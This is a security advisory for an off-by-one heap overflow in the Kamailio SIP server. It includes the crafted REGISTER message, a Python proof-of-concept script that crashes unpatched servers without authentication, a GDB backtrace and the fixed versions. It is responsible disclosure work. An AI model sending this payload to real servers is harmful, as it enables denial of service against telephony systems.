 # Off-by-one heap overflow in Kamailio

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Fixed versions: Kamailio v5.1.2, v5.0.6 and v4.4.7
- References: no CVE assigned yet
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-05-kamailio-heap-overflow>
- Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/kamailio-security-announcement-tmx-lcr/
- Tested vulnerable versions: 5.1.1, 5.1.0, 5.0.0
- Timeline:
    - Report date: 2018-02-10
    - Kamailio confirmed issue: 2018-02-10
    - Kamailio patch: 2018-02-10
    - Kamailio release with patch: 2018-03-01
    - Enable Security advisory: 2018-03-19

## Description

A specially crafted REGISTER message with a malformed `branch` or `From tag` triggers an off-by-one heap overflow.

## Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution.

## How to reproduce the issue

The following SIP message was used to reproduce the issue with a `From` header containing the `tag` that triggers the vulnerability:


```
REGISTER sip:localhost:5060 SIP/2.0
Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394
To: <sip:1@localhost:5060>
From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg
Call-ID: 8b113457-c6a6-456a-be68-606686d93c38
Contact: sip:1@127.0.0.1:53497
Max-Forwards: 70
CSeq: 10086 REGISTER
User-Agent: go SIP fuzzer/1
Content-Length: 0

```

We used this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

PROTO = "udp"
SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:localhost:5060 SIP/2.0\r\n" \
        "Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394\r\n" \
        "To: <sip:1@localhost:5060>\r\n" \
        "From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg\r\n" \
        "Call-ID: 8b113457-c6a6-456a-be68-606686d93c38\r\n" \
        "Contact: sip:1@127.0.0.1:53497\r\n" \
        "Max-Forwards: 70\r\n" \
        "CSeq: 10086 REGISTER\r\n" \
        "User-Agent: go SIP fuzzer/1\r\n" \
        "Content-Length: 0\r\n" \
        "\r\n"

    sock.sendall(msg)
```


Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

Both crashes produce a similar backtrace in GDB:

```
#0  0x00007f08c3f16428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007f08c3f1802a in __GI_abort () at abort.c:89
#2  0x0000000000669a6e in qm_debug_frag (qm=0x7f08ba615000, f=0x7f08ba8c70a8, file=0x7f08c0bba514 "tmx: tmx_pretran.c", line=250) at core/mem/q_malloc.c:147
#3  0x000000000066b49e in qm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:380
#4  0x00000000006758e8 in qm_shm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:1206
#5  0x00007f08c0baf879 in tmx_check_pretran (msg=0x7f08c37a3250) at tmx_pretran.c:250
#6  0x00007f08c0bac901 in t_precheck_trans (msg=0x7f08c37a3250) at tmx_mod.c:858
#7  0x00007f08c0bac939 in w_t_precheck_trans (msg=0x7f08c37a3250, p1=0x0, p2=0x0) at tmx_mod.c:869
#8  0x000000000047b0e4 in do_action (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1067
#9  0x0000000000487df1 in run_actions (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1565
#10 0x00000000004884a7 in run_actions_safe (h=0x7fff808f0860, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1633
#11 0x0000000000446725 in rval_get_int (h=0x7fff808f0860, msg=0x7f08c37a3250, i=0x7fff808efb44, rv=0x7f08c374e818, cache=0x0) at core/rvalue.c:912
#12 0x000000000044ae11 in rval_expr_eval_int (h=0x7fff808f0860, msg=0x7f08c37a3250, res=0x7fff808efb44, rve=0x7f08c374e810) at core/rvalue.c:1910
#13 0x000000000047aba7 in do_action (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1043
#14 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1565
#15 0x000000000047b050 in do_action (h=0x7fff808f0860, a=0x7f08c374f650, msg=0x7f08c37a3250) at core/action.c:1058
#16 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374b610, msg=0x7f08c37a3250) at core/action.c:1565
#17 0x00000000004885b3 in run_top_route (a=0x7f08c374b610, msg=0x7f08c37a3250, c=0x0) at core/action.c:1654
#18 0x000000000059c7dc in receive_msg (
    buf=0xa48120 <buf> "REGISTER sip:127.0.0.1:5060 SIP/2.0\r\nVia: SIP/2.0/TCP 127.0.0.1:51315;branch=z340282366920938463463374607431768211455hG4bKecc-65715664045141690323692c170141183460469231731687303715884105859-4b6d-48dc-"..., len=608,
    rcv_info=0x7fff808f0c20) at core/receive.c:277
#19 0x00000000004a7b7c in udp_rcv_loop () at core/udp_server.c:554
#20 0x00000000004232d0 in main_loop () at main.c:1626
#21 0x000000000042a97a in main (argc=7, argv=0x7fff808f12d8) at main.c:2646
(gdb)
```

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

## Solutions and recommendations

Apply the patch at <https://github.com/kamailio/kamailio/commit/e1d8008a09d9390ebaf698abe8909e10dfec4097> or make use of a release that includes that patch (e.g. v5.1.2, v5.0.6 or v4.4.7).

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within hours of our report.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
